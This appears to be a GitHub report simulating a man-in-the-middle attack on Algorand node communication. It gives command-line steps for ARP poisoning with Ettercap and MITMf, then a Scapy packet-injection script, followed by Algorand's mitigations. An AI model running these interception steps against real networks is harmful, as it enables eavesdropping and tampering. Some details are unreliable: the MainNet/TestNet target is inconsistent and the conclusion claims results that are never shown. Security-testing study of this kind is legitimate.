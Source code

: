 # Detailed and Practical Report: MITM Attack Simulation on Algorand MainNet

## Objective
This report simulates a Man-in-the-Middle (MITM) attack on the Algorand MainNet using Kali Linux, specifically targeting the node communication process. The aim is to demonstrate how a MITM attack could compromise the network's Confidentiality, Integrity, and Availability (CIA) while analyzing Algorand's built-in security features that mitigate such attacks.

## Introduction
A MITM attack allows an attacker to intercept, alter, or observe communication between two parties without their knowledge. On a blockchain network like Algorand, MITM attacks could lead to:

- Confidentiality breaches: Exposing sensitive data in communication.
- Integrity compromises: Altering transactions or block data.
- Availability impacts: Disrupting communication between nodes, possibly causing synchronization issues.

Despite these risks, Algorand employs strong security measures, including encryption, consensus mechanisms, and cryptographic signatures, to protect against such attacks.

## Tools and Requirements

- Kali Linux: A Linux distribution built for penetration testing.
- Wireshark: Network protocol analyzer for capturing and analyzing traffic.
- Ettercap: Tool for performing MITM attacks through ARP poisoning.
- Scapy: A packet manipulation tool for crafting malicious packets.
- Algorand TestNet Node: This setup allows you to experiment safely without impacting the actual MainNet.

## MITM Attack Walkthrough

### Step 1: Setup Algorand Node on Kali Linux

**Install Algorand Node:**
```bash
sudo apt update
sudo apt install algorand
```

**Once installed, start the node:**
```bash
goal node start -d /var/lib/algorand
```

**Ensure that the node is up and running by checking its status:**
```bash
goal node status -d /var/lib/algorand
```
This setup will serve as the basis for testing a MITM attack.

---

### Step 2: Enable IP Forwarding on Kali Linux

**Enable IP Forwarding:**
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**Verify IP Forwarding:**
```bash
cat /proc/sys/net/ipv4/ip_forward
```
Ensure the output is `1`, indicating that IP forwarding is enabled.

---

### Step 3: Use Wireshark for Packet Capture

**Launch Wireshark:**
```bash
sudo wireshark
```

**Select the Interface:** Choose the network interface connected to your node (e.g., eth0 or wlan0).

**Set Capture Filter:**
```bash
tcp.port == 8080
```
This captures only the traffic relevant to Algorand, minimizing unnecessary data.

---

### Step 4: Perform ARP Poisoning Using Ettercap

**Launch Ettercap:**
```bash
sudo ettercap -G
```

**Identify Target Nodes:**
- **Target 1:** The IP address of the Algorand node you want to intercept.
- **Target 2:** The IP address of the relay or another node that communicates with your target node.

**Perform ARP Poisoning:**  
Go to `Mitm -> ARP poisoning`, and enable "Sniff remote connections." This poisons the ARP cache of both nodes.

**Start Sniffing:** Ettercap will start intercepting and relaying traffic between the two nodes.

---

### Step 5: Proxy and Manipulate Traffic with MITMf

**Install MITMf:**
```bash
sudo apt install mitmf
```

**Run MITMf with ARP Spoofing and Sniffing Enabled:**
```bash
sudo mitmf --arp --spoof --gateway <gateway_ip> --target <algorand_node_ip> -i eth0
```

**Enable Plugins for Advanced Attacks:** MITMf allows you to run plugins for manipulating HTTP, DNS, or SSL traffic.

---

### Step 6: Craft Malicious Packets Using Scapy

**Install Scapy:**
```bash
sudo apt install scapy
```

**Write a Packet Injection Script:**
```python
from scapy.all import *

# Craft a malicious TCP packet
packet = IP(dst="algorand_node_ip") / TCP(dport=8080) / "malicious data"
send(packet)
```

**Run the Script:**  
Execute the script to inject the malicious packets into the communication stream.

---

### Step 7: Analyze Traffic with Wireshark and Ettercap

Use Wireshark and Ettercap to monitor and analyze the results:

- **Look for Unusual Traffic:**
  - Is there any cleartext communication that should be encrypted?
  - Were any packets altered successfully?
  - Is any transaction data being modified?

- **Effectiveness of Attack:**
  - If communication or transactions are manipulated, it suggests a vulnerability.
  - Failed packet alterations indicate that Algorand’s encryption and signature verification are preventing tampering.

---

### Impact of MITM Attack on Algorand MainNet

**Confidentiality:**  
If communication between nodes is not adequately encrypted, sensitive data (e.g., account or transaction details) may be exposed during the MITM attack.

- **Mitigation:** Algorand uses Transport Layer Security (TLS), which encrypts all communications between nodes. Even if packets are intercepted, they cannot be read without the proper encryption keys.

**Integrity:**  
A MITM attack could theoretically allow for the manipulation of block proposals or transactions.

- **Mitigation:** Algorand employs cryptographic signatures for each transaction and message passed between nodes. Any tampered data would fail signature verification.

**Availability:**  
A successful MITM attack could cause nodes to desynchronize or drop communication, impacting network availability.

- **Mitigation:** Algorand’s decentralized and distributed architecture ensures network resilience. Anti-DDoS mechanisms also help protect against availability-based attacks.

---

### Algorand’s Security Measures Against MITM Attacks

- **TLS Encryption:** Ensures all node-to-node communication is encrypted.
- **Cryptographic Signatures:** Messages are signed using Elliptic Curve Cryptography (ECC), preventing undetected message tampering.
- **Pure Proof of Stake (PPoS):** Ensures only authenticated messages contribute to the consensus process.
- **Decentralization:** No single node is critical to network functionality.
- **Replay Protection:** Nonces and timestamps prevent reuse of old transaction data.

---

### Conclusion

The MITM attack simulation demonstrated the potential compromise of Algorand’s confidentiality, integrity, and availability. However, Algorand’s robust security measures, such as TLS encryption, cryptographic signatures, and decentralized architecture, make it resilient to most MITM attacks.

---

### Recommendations for Improving Algorand’s Security

- **Mandatory Encryption:** Ensure all communication, regardless of node configuration, is encrypted.
- **ARP Spoofing Detection:** Implement ARP spoofing detection mechanisms at the node level.
- **Regular Penetration Testing:** Conduct regular security audits to identify and address potential vulnerabilities.



### Stay tuned for a demo

